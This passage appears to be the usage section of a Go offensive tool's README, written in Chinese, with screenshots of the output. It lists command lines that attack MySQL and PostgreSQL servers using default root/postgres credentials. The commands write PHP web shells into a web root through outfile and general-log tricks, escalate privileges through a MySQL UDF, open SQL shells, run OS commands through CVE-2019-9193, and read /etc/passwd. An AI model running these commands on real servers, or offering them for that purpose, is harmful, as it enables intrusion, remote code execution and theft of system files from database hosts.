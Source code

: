```shell
go run .\main.go -mysql -ruser root -rhost 192.168.111.136 -pwd "root" -rport 3306 -shell -outfileshell -path "C:\\\\phpStudy\\\\WWW\\\\\aaa.php"
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673030645785-1b594344-6002-410a-921d-f8efc3901bb2.png#averageHue=%232d2d2c&clientId=u08da9ee0-8226-4&from=paste&height=293&id=u4f764585&name=image.png&originHeight=439&originWidth=2476&originalType=binary&ratio=1&rotation=0&showTitle=false&size=117107&status=done&style=none&taskId=ub72efd5b-a58d-4cfc-b02a-7408b84a0cb&title=&width=1650.6666666666667)
### 全局日志getshell
```shell
go run .\main.go -mysql -ruser root -rhost 192.168.111.136 -pwd "root" -rport 3306 -shell -generallog -path C:\\\\phpStudy\\\\WWW\\\\aam.php
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673030756036-47074c66-a11d-4019-adfc-4ac3727659b5.png#averageHue=%232c2c2b&clientId=u08da9ee0-8226-4&from=paste&height=269&id=udb7af4ba&name=image.png&originHeight=403&originWidth=2296&originalType=binary&ratio=1&rotation=0&showTitle=false&size=87296&status=done&style=none&taskId=uaf8c1a39-31a0-49f4-8524-40873034fec&title=&width=1530.6666666666667)
### udf提权
```shell
go run .\main.go -mysql -ruser root -rhost 192.168.111.136 -pwd "root" -rport 3306 -udf
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673031307685-e3ce68e6-73f8-40eb-9297-51ab60415098.png#averageHue=%232d2c2c&clientId=u08da9ee0-8226-4&from=paste&height=512&id=uc2bcd055&name=image.png&originHeight=768&originWidth=1732&originalType=binary&ratio=1&rotation=0&showTitle=false&size=155085&status=done&style=none&taskId=ud0b58534-3ee7-4879-82e5-205a25f2ff1&title=&width=1154.6666666666667)
## postgresql
### 连接postgre数据库获取sql shell
```shell
go run main.go -postgre -ruser  "postgres" -pwd "postgres" -rhost 192.168.111.162 -rport "5432" -cli
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673160848120-fd598941-e7a8-456f-bb5b-c41bdeaecc93.png#averageHue=%232d2d2c&clientId=u67188ca8-ad41-4&from=paste&height=307&id=u56542eca&name=image.png&originHeight=460&originWidth=2071&originalType=binary&ratio=1&rotation=0&showTitle=false&size=107639&status=done&style=none&taskId=u881db7a3-6cf0-4448-924e-ed59a618da9&title=&width=1380.6666666666667)
### 利用CVE-2019-9193循环执行命令
```shell
go run main.go -postgre -ruser  "postgres" -pwd "postgres" -rhost 192.168.111.139 -rport "5432" -CVE20199193 -console
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673160917125-06586a4d-3256-42e9-9956-db1e36ca7b8d.png#averageHue=%232d2d2c&clientId=u67188ca8-ad41-4&from=paste&height=336&id=uf546e084&name=image.png&originHeight=504&originWidth=2019&originalType=binary&ratio=1&rotation=0&showTitle=false&size=126344&status=done&style=none&taskId=u9e7e6f41-650e-432e-839c-6612b81b65c&title=&width=1346)
### 利用CVE-2019-9193执行单条命令
```shell
go run main.go -postgre -ruser  "postgres" -pwd "postgres" -rhost 192.168.111.139 -rport "5432" -CVE20199193 -cmd "pwd"
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673161033085-4ab426eb-558c-47b9-a5d0-a4b29098b69e.png#averageHue=%232d2d2c&clientId=u67188ca8-ad41-4&from=paste&height=265&id=uced0c31e&name=image.png&originHeight=398&originWidth=2105&originalType=binary&ratio=1&rotation=0&showTitle=false&size=109865&status=done&style=none&taskId=u86817218-9b22-4ac6-a084-8bc69b2a101&title=&width=1403.3333333333333)
### 单次文件读取(方法一)
```shell
go run main.go -postgre -ruser  "postgres" -pwd "postgres" -rhost 192.168.111.139 -rport "5432" -read1 -file "/etc/passwd"
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673161149239-1f78ce81-d03d-42ec-8d0e-0bd4649ecd62.png#averageHue=%232d2c2c&clientId=u67188ca8-ad41-4&from=paste&height=680&id=u8e990df0&name=image.png&originHeight=1020&originWidth=2190&originalType=binary&ratio=1&rotation=0&showTitle=false&size=210671&status=done&style=none&taskId=u63e87976-5a9f-439c-adb3-5414fc68dbf&title=&width=1460)
### 循环文件读取(方法一)
```shell
go run main.go -postgre -ruser  "postgres" -pwd "postgres" -rhost 192.168.111.139 -rport "5432" -read1 -console
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673161239356-65b45cb0-3f97-44f4-83e6-dc937a835dff.png#averageHue=%232d2c2c&clientId=u67188ca8-ad41-4&from=paste&height=719&id=u195ced09&name=image.png&originHeight=1078&originWidth=2235&originalType=binary&ratio=1&rotation=0&showTitle=false&size=226870&status=done&style=none&taskId=u866bcede-0111-422c-85d7-ae027662f44&title=&width=1490)
### 单次文件读取(方法二)
```shell
go run main.go -postgre -ruser  "postgres" -pwd "postgres" -rhost 192.168.111.139 -rport "5432" -read2 -file "/etc/passwd"
```
把hex值转换string即为结果
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673161361614-52b060b2-f9cb-4344-ab9b-15fef9b73d87.png#averageHue=%23302f2e&clientId=u67188ca8-ad41-4&from=paste&height=568&id=ud5083910&name=image.png&originHeight=852&originWidth=2492&originalType=binary&ratio=1&rotation=0&showTitle=false&size=222519&status=done&style=none&taskId=ua2ef94f7-6c84-430f-900f-bd6915af25d&title=&width=1661.3333333333333)
